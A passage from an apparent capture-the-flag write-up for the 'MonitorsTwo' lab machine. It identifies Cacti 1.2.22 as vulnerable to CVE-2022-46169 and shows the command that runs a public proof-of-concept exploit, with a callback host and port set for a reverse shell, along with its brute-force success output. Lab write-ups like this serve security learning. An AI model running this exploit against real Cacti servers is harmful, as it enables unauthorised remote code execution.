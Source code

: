 We see that we have a webpage open so let's visit that.

### Cacti

\
We get a page for Cacti login and it is running version 1.2.22. A quick google search leads us to a CVE and exploit for this version of Cacti.

<figure><img src="Images/MonitorsTwo/cacti_homepage.png" alt=""><figcaption></figcaption></figure>

### CVE-2022-46169

[CVE-2022-46169](https://nvd.nist.gov/vuln/detail/CVE-2022-46169) allows for unauthenticated users to perform remote code execution (RCE). We don't have a username:password combo so this is perfect for us.\
We will be using the python POC from [FredBrave](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22). We will need two terminals, an exploit runner and a listener.

#### Exploit Runner

```console
toasty@parrot$ python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.14.231 --LPORT=9001
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```
